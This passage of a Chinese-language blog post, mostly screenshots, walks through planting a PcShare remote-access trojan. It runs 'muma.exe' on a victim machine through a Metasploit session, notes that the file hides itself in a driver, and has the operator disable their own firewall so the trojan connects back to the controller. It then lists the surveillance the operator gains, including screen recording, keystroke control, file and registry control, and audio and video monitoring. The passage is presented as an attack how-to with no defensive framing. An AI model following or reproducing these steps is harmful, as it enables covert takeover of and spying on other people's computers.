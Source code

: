 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBibC9nluN2c4v52BibVXVmiclVRxG9aU4HZ1icmMWiaEibmbmuvSkhgBpnniag/640?wx_fmt=png&from=appmsg "")  
接下来通过 kali 的 msf，远程执行一下这个文件，提示如下进程建立，表示运行成功了。  

```
execute -f c:\\muma.exe

```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBG9VE1Nz0zn4U0zHq4gib0Uibibjl3vrcy2otZtEYmwXaMLwm3zW25GT0w/640?wx_fmt=png&from=appmsg "")  
然后再去被攻击机看一下，这个文件运行成功之后，这个文件就消失了，其实是隐藏到某个驱动当中去了。然后看一下我们自己本机的 pcshare 工具窗口，等待一下之后，就看到有内容产生了。  
  

```
注意：一定要先关闭自己本机的防火墙，不然 muma.exe 程序没办法连接上你的 pcshare 工具。
```

  
  
这就拿到了目标主机的所有操作，这里我们可以进行屏幕监控、保存屏幕录像、文件管理、进程管理、键盘管控(这个功能没试过)、注册表管理、音视频监控、窗口管理等等  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBoQgmicia210VWciaSeUsBiayx7AibL0BVLg8uI8kRN69CgT9LicDluPAjZyg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBZYxyjDpaI11OGWaVfK6eAVKYKqL3TibibD39b9PmE1LhpPibVe4uGskLg/640?wx_fmt=png&from=appmsg "")  
## 成功上线  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWB6CyUtgYbSsic2Vc4w4hWTibLBCOibz5ibKbEanyJovKAz6VN5dwDuvHGGA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBkpa83lbCEu4hHShIxxqay2cOlEhjFb8eUQtMJS4vylUchpjPbneYiaw/640?wx_fmt=png&from=appmsg "")  
  
  
  
